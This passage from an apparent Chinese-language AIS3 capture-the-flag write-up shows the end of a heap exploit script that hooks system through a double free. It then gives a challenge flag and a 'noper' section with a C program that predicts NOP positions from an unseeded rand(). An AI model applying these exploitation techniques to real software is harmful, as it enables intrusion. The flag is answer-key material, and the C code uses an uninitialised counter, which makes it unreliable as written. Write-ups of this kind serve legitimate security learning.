 ``` python

# hook
adjust(15, 0xaaa, system_addr)
delMem(0)

# prepare double free
def setTecaheKey(index, key):
    adjust(index, key, 0)


c.interactive()
c.close()
```

```
AIS3{345y_h34p_345y_l1f3}
```

## noper (solved)

```
Canary                        : ✓
NX                            : ✘
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```

看到沒有開 nx ，並且為 64 bit

這題沒有初始化種子碼，因此是猜的出 code 的位置的，因此可以以寫出小程式找出覆蓋 nop 的位置

solveNop.c

```
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
  int i;
  int i_1;
  int nops[10];
  char code[64];
  int randVaue;
  unsigned int uVar1;

  while (i < 10) {
    randVaue = rand();
    uVar1 = (unsigned int)(randVaue >> 0x1f) >> 0x1a;
    nops[i] = (randVaue + uVar1 & 0x3f) - uVar1;
    i = i + 1;
  }

  // show
  i_1 = 0;
  while (i_1 < 10) {
    printf("%d\n", nops[i_1]);
    i_1 = i_1 + 1;
  }

  return 0;
}
```
